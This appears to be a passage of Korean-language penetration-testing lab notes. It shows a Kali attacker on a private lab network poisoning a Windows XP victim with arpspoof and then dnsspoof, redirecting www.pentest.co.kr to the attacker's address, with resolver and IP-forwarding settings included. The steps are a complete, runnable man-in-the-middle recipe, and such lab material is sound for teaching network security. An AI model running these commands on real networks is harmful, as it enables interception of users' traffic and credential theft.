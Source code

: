 [root@localhost named]# service named restart



###### XP

cmd -> nslookup -> www.pentest.co.kr

인터넷 -> https://www.pentest.co.kr

인터넷 옵션 -> 내용 -> SSL 상태 지우기 -> cmd -> ipconfig /flushdns



###### 칼리

root@kali-04:~/Desktop# vim /etc/resolv.conf

```
nameserver 172.16.10.50
nameserver 168.126.63.1
```

root@kali-04:~/Desktop# nslookup

```
> www.pentest.co.kr
Server:         172.16.10.50
Address:        172.16.10.50#53

Name:   www.pentest.co.kr
Address: 172.16.10.50
> exit

```

root@kali-04:~/Desktop# arpspoof -i eth0 -t 172.16.10.10 172.16.10.50



탭2

root@kali-04:~/Desktop# vim dnsspoof.txt

```
172.16.10.30 www.pentest.co.kr
```

root@kali-04:~/Desktop# dnsspoof -i eth0 -f dnsspoof.txt



탭3

root@kali-04:~/Desktop# vim /etc/sysctl.conf
root@kali-04:~/Desktop# sysctl -p

```
net.ipv4.ip_forward = 0
```



###### XP
